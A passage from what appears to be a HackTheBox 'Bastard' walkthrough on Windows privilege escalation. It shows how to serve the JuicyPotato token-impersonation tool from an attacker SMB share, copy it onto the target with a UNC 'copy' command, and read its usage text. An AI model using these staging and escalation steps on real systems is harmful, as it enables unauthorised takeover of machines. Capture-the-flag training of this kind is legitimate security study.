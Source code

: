 ![](/assets/htb-bastard/whoami_all.png)

I already have the JuicyPotato binary copied to `/opt`, so we can copy it to our working directory with `cp /opt/JuicyPotato.exe jp.exe`, which renames it to `jp.exe` for easier typing.

To copy the file, we can setup a quick SMB server on our machine, which will share out our current folder, allowing the target system to copy the file from it. This can be done with the below command.

```
sudo impacket-smbserver kali .
```

On the target, run `mkdir C:\temp` to create a temp directory that we control, and navigate to it with `cd C:\temp`. We can copy the file directly with `copy \\10.10.14.24\kali\jp.exe .`.

When we run `./jp.exe`, we get the JuicyPotato usage text below.

```
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
